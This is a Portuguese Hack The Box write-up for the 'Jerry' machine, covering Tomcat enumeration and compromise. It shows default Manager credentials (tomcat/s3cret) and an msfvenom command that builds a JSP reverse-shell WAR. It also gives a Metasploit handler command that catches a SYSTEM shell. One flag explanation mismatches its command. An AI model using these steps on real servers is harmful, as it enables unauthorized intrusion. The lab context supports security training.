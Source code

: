 # Hack The Box - Máquina: Jerry

![Alt text](jerry.png)

## Resumo
Embora a máquina Jerry seja uma das mais simples no Hack The Box, ela apresenta uma situação realista, já que o Apache Tomcat frequentemente é encontrado exposto e configurado com credenciais comuns ou fracas. Isso proporciona uma oportunidade de exploração e acesso, tornando a máquina Jerry um ambiente educativo para compreender tais cenários.

## Enumeração

### 1. Escaneamento de Portas

Primeiramente devemos utilizar a ferramenta Nmap para verificar as portas abertas, e os serviços rodando nas mesmas, para isso utilizamos o seguinte comando

<code>nmap -A {IP da maquina}</code>

O comando acima é um dos mais basicos do nmap, utilizamos as seguintes opções?

* **-A** é uma opção que ativa um conjunto abrangente de técnicas de varredura agressiva. Essas técnicas incluem detecção de versão, verificação de scripts, detecção de sistema operacional e rastreamento de rota.

Com o comando acima recebemos o seguinte resultado

<pre><code>PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)</code></pre>

### 2. Enumeração de Serviços

Com este retorno conseguimos as seguintes informações

* Porta 8080 aberta, rodando uma versão desatualizada do Tomcat
* O servidor possivelmente está rodando Microsoft windows server 2012

## Exploração

### 1. Explorando o website
 Conforme detectamos o serviço Tomcat rodando no servidor, vamos verificar o serviço em nosso navegador.

 ![Alt text](tomcat.png)

 Conforme verificado, de fato o servidor está rodando o Tomcat, em uma versão considerada desatualizada.

 ### 2. Acesso inicial
 Ao clicar sobre o botão de 'Manager App' um login de acesso é solicitado pelo site, com alguma pesquisa, conseguimos a informação sobre o login padrão para o serviço, considerando que a instalação do Tomcar em si aparenta estar como a padrão, as chances de alteração da senha padrão são baixas.

| Login | Password |
|-------|----------|
|tomcat | s3cret   |

![Alt text](manager_app.png)

Com acesso ao gerenciamento da aplicação, podemos passar para a proxima fase.

## Exploitation

### Reverse Shell no Tomcat

Para conseguirmos uma shell reversa no servidor, vamos precisar utilizar um arquivo **WAR** ou *Web Application Resource Files*, este tipo de arquivo é um contêiner de arquivo único que armazena todos os arquivos potenciais necessários para uma aplicação web baseada em Java. Ele pode conter Arquivos Java (.jar), Páginas de Servidor Java (.jsp), Servlets Java, classes Java, páginas da web, arquivos CSS, entre outros. 


O Tomcat Manager facilita a implantação de arquivos WAR com apenas alguns cliques, e como esses arquivos podem conter código Java, eles se tornam um ótimo alvo para obter execução dentro do ambiente.

### Criando o Arquivo com o payload.

Como informado acima, iremos utilizar um arquivo WAR para conseguirmos acesso ao servidor, existem varias maneiras de criar o arquivo, porem neste caso vamos utiliar a ferramenta **msfvenom** para este proposito, e vamos receber a conexão utilizando o **Metasploit**.

Para criar o arquivo utilizaremos o seguinte comando:
<pre><code>msfvenom -p java/jsp_shell_reverse_tcp LHOST={IP de sua maquina} LPORT=1337 -f war > shell_tcp_1337.war</pre></code>
Agora vamos entender melhor o comando acima

* <code>msfvenom</code> Este é o comando que faz parte do framework Metasploit e é usado para gerar payloads maliciosos
* <code>-p windows/shell_reverse_tcp</code> Esta parte do comando define o tipo de payload que você deseja gerar. Nesse caso, é um payload de shell reverso para sistemas Windows.
* <code>LHOST={IP de sua máquina}</code> Aqui, você precisa substituir {IP de sua máquina} pelo endereço IP da sua máquina. Isso indica para onde o payload reverso enviará a conexão.
* <code>LPORT=1337</code> Isso define a porta de escuta na qual seu payload reverso estará ouvindo por uma conexão. Neste exemplo, a porta é definida como 1337, mas você pode ajustá-la conforme necessário.
* <code>-f war</code> Esta opção especifica o formato de saída que você deseja para a carga útil. No caso, você está escolhendo o formato "war",
* <code>> shell_tcp_1337.war</code> O operador '>' é usado para redirecionar a saída do comando para um arquivo. Aqui, você está redirecionando o retorno gerado para um arquivo chamado "shell_tcp_1337.war".

### Upload e recebendo o shell

Agora que temos o arquivo de com o payload, precisamo apenas realizar o upload utilizando o campo de 'WAR file to deploy'

![Alt text](upload.png)
![Alt text](upload2.png)

Agora que realizamos o upload de nosso arquivo, devemos configurar o Metasploit para receber a conexão

Para isso digitamos o seguinte comando

<pre><code>msfconsole -q -x "use multi/handler;set LHOST 10.10.14.128; set LPORT 1337; run"</pre></code>

Então apos a execução do comando, podemos carregar a pagina com nosso payload, e vamos receber uma conexão reversa como system.

![Alt text](whoami.png)

## Post Exploitation

Neste caso como recebemos o shell com privilegios altos, não sera necessario realizar uma elevação de privilegios, basta buscar pelas flags.

Conseguimos encontrar as duas flags em um unico arquivo, no caminho:
<pre><code>C:\Users\Administrator\Desktop\flags</code></pre>

Dentro do arquivo "2 for the price of 1.txt"